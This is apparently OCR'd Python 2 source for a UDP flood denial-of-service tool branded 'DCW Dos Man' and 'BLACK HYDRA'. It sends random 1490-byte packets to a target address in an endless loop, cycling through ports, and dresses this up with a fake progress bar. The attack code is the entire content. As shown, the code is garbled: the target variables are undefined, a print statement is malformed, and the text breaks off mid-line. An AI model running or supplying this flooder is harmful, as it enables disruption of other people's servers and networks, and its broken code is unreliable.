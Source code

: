 import sys
import os
import time
import socket
import random
#code time
from datetime import datetime
now = datetime.now()
hour = now.hour
minute = now.minute
day = now.day
month = now.month
year = now.year

##############
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes = random._urandom(1490)
##############

os.system("clear")
os.system("figlet DCW Dos Man")
print "[+]--                    [+] 0% "
time.sleep(2)
print "[+]-xxxx>                [+] 25%"
time.sleep(2)
print "[+]-xxxxxxx>             [+] 50%"
time.sleep(3)
print "[+]-xxxxxxxxx>           [+] 75%"
time.sleep(2) 
print "[+]-xxxxxxxxxxxxxx>     [+]100%"
time.sleep(2)
sent = 0
while True:
    sock.sendto(bytes, (ip,port))
    sent = sent + 1
    port = port + 1
    print BLACK HYDRA :-Sent %s packet to %s through port:%s"%(sent,ip,port)
    if port == 65534 
